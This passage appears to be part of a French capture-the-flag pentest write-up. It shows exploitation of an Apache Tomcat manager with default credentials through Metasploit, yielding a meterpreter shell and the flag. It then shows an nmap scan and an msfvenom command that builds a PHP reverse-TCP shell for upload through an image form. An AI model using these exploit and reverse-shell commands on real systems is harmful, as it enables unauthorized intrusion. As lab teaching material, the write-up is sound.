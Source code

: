On a ensuite cherché une autre vulnérabilité afin d'avoir accès aux fichiers sur le serveur en passant par exemple par un `shell`.  Grâce à `metasploit`, il est possible de le faire. Nous avons donc configuré le `payload` suivant :

````shell
msfconsole
use exploit/multi/http/tomcat_mgr_deploy
set HttpPassword tomcat
set HttpUsername tomcat
set RHOST 10.10.40.122
set RPORT 8080
set VHOST 10.10.40.122
run	
````

Après avoir lancé l'exploit, un `shell meterpreter` s'est ouvert et on a donc pu naviguer dans le système de fichiers. Avec les commandes suivantes, on a pu retrouver le flag : 

````shell
#Recherche du fichier & navigation dans les répertoires
ls
cd ../../
ls

#Affichage des fichiers/dossiers
cat flag.txt
````

Le flag de cette machine est : ` AST16{d3f4u17_cr3d5_3v3rywh3r3}`

> Source : https://pentestlab.blog/2012/03/22/apache-tomcat-exploitation/



#### Host 10.10.40.128

````shell
#Scan des ports avec 
nmap -sV -p0-65535 10.10.40.128

Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-16 09:55 BST
Nmap scan report for 10.10.40.128
Host is up (0.026s latency).
Not shown: 65534 closed ports
PORT   STATE    SERVICE VERSION
0/tcp  filtered unknown
80/tcp open     http    Apache httpd 2.2.11 ((Ubuntu) PHP/5.2.6-3ubuntu4 with Suhosin-Patch)
````

On peut voir qu'un serveur Apache tourne sur le port 80. Nous nous sommes donc connecté via un client web. Sur cette page, on a pu constater qu'il y a avait un formulaire pour télécharger une "image" sur le serveur. Nous sommes donc parties sur l'idée d'injecter un fichier contenant un shell. 

Pour créer le fichier contenant notre shell, nous avons utilisé `msfvenom` et nous avons entré notre adresse IP et le port sur lequel nous voulions obtenir notre shell.

```shell
#génération d'un shell dans un fichier php
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.42.12 LPORT=5555 -f raw -o shell.php
```
